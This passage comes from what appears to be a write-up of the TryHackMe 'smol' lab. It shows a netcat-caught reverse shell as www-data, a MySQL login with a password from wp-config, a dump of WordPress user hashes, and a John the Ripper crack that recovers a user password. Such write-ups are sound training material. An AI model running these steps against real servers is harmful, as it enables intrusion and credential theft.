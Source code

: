 ```┌──(kali㉿kali)-[~/Downloads/THM/smol_THM]
└─$ nc -lvnp 4433
listening on [any] 4433 ...
connect to [10.8.35.149] from (UNKNOWN) [10.10.133.67] 47816
Linux smol 5.4.0-156-generic #173-Ubuntu SMP Tue Jul 11 07:25:22 UTC 2023 x86_64 x86_64 x86_64 GNU/Linux
 12:07:40 up 17 min,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
```

-> We're in!
-> Earlier, we had found the username and password for a database in wp-config. Let's use that to see if there's anything interesting in there

```
www-data@smol:/$ mysql -u wpuser -p
mysql -u wpuser -p
Enter password: kbLSF2Vop#lw3rjDZ629*Z%G
```

-> Looking through, I found a table named wp_users with usernames and password hashes

```
mysql> select user_login,user_pass from wp_users;
select user_login,user_pass from wp_users;
+------------+------------------------------------+
| user_login | user_pass                          |
+------------+------------------------------------+
| admin      | $P$BH.CF15fzRj4li7nR19CHzZhPmhKdX. |
| wpuser     | $P$BfZjtJpXL9gBwzNjLMTnTvBVh2Z1/E. |
| think      | $P$BOb8/koi4nrmSPW85f5KzM5M/k2n0d/ |
| gege       | $P$B1UHruCd/9bGD.TtVZULlxFrTsb3PX1 |
| diego      | $P$BWFBcbXdzGrsjnbc54Dr3Erff4JPwv1 |
| xavi       | $P$BB4zz2JEnM2H3WE2RHs3q18.1pvcql1 |
+------------+------------------------------------+
```

-> Adding these hashes to a file and running it through johntheripper, and waiting for as long as a ferrari F1 pitstop (a long time), we got diego's password

```
admin$P$BH.CF15fzRj4li7nR19CHzZhPmhKdX.
wpuser:$P$BfZjtJpXL9gBwzNjLMTnTvBVh2Z1/E.
think:$P$BOb8/koi4nrmSPW85f5KzM5M/k2n0d/
gege:$P$B1UHruCd/9bGD.TtVZULlxFrTsb3PX1
diego:$P$BWFBcbXdzGrsjnbc54Dr3Erff4JPwv1
xavi:$P$BB4zz2JEnM2H3WE2RHs3q18.1pvcql1
```

```┌──(kali㉿kali)-[~/Downloads/THM/smol_THM]
└─$ john passhash.txt --wordlist=/usr/share/wordlists/rockyou.txt --format=phpass
Using default input encoding: UTF-8
Loaded 5 password hashes with 5 different salts (phpass [phpass ($P$ or $H$) 128/128 ASIMD 4x2])
Cost 1 (iteration count) is 8192 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
sandiegocalifornia (diego)
```
